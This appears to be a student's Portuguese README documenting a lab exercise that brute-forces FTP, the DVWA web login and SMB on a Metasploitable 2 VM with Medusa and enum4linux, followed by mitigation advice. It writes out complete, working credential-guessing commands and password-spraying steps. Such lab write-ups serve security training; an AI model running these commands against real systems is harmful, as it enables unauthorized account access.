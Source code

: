 # Projeto: Simulação de Ataques de Força Bruta com Medusa (Kali + Metasploitable/DVWA)

## 1. Objetivo
- Compreender ataques de força bruta em diferentes serviços (FTP, Web, SMB);
- Utilizar o Kali Linux e o Medusa para auditoria de segurança em ambiente controlado;
- Documentar processos técnicos de forma clara e estruturada;
- Reconhecer vulnerabilidades comuns e propor medidas de mitigação;
- Utilizar o GitHub como portfólio técnico para compartilhar documentação e evidências.

## 2. Ambiente de Teste
- Host: VirtualBox (Host-Only network)
- VMs:
  - Kali Linux (192.168.56.102)
  - Metasploitable 2: (192.168.56.101)

## 3. Ferramentas
- Medusa, enum4linux, smbclient

## 4. Wordlists usadas
- users.txt
- passwords.txt

## 5. Comandos Executados
### Teste de Identificação
`ping -c 4 192.168.56.101`

### Criação de Wordlists
`echo -e "user\nmsfadmin\nroot\nadmin" > users.txt`
`echo -e "123456\npassword\nmsfadmin\nqwerty" > passwords.txt`

### FTP
`medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp -t 4 -v 4 | tee medusa_ftp.log`
- Legenda de flags:
  - -h alvo
  - -U arquivo de usuários (linha por linha)
  - -P arquivo de senhas
  - -M módulo (ftp, smbnt, http, ssh, etc.)
  - -t 4 threads (execuções simultâneas)
  - -v 4 verbose (detalhe de output no terminal)

*tee medusa_ftp.log para salvar saída*

### HTTP
`medusa -h 192.168.56.101 -M http -m PAGE:'/dvwa/login.php' -m FORM:'username^USER^&password^PASS^&Login=Login' -m 'FAIL=Login failed' -U users.txt -P passwords.txt -t 6 | tee medusa_http.log`

### SMB / Password Spraying
`enum4linux -a 192.168.56.101`
`medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M smbnt -t 2 -T 50 | tee medusa_smb.log`

## 6. Resultados e validação
- Credenciais descobertas:
  - user: msfadmin / password: msfadmin (exemplo)
- Comandos de validação:
  - `ftp 192.168.56.101`, `smbclient -L //192.168.56.101 -U msfadmin`

## 7. Recomendações de Mitigação
- Lockout / throttle: bloqueio após N tentativas ou backoff exponencial.
- MFA para acessos críticos (FTP, aplicações web).
- Rate limiting em endpoints de login e WAF.
- Senha forte + política de expiração; no geral tokens e senhas únicas.
- Monitoring / SIEM: alertas para múltiplas falhas de autenticação, geolocalização anômala.
- Fail2ban em serviços (FTP/SSH/web) para bloquear IPs após muitas falhas.
- Desativar serviços não necessários (ex.: FTP se não for usado)
- Segurança SMB: aplicar patches, desabilitar SMBv1, políticas de bloqueio.
- Proteção CSRF / tokens em formulários (DVWA exemplo).
- Treinamento de usuários e pentests periódicos.
